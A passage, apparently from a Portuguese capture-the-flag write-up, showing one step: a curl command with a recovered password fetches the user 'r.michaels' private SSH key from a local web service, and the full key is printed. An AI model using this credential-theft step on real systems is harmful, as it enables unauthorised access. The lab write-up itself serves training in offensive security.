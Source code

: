 ```bash
</body></html>
```

Ao baixar este arquivo, notamos que se trata de uma chave OpenSSH,  a qual possivelmente nos permitirá logar com a conta `r.michaels` e obter a flag do usuário.

```bash
curl http://127.0.0.1:3001/~r.michaels/id_rsa -u webapi_user
Enter host password for user 'webapi_user':iamthebest

% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 2610 100 2610 0 0 2548k 0 --:--:-- --:--:-- --:--:-- 2548k
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
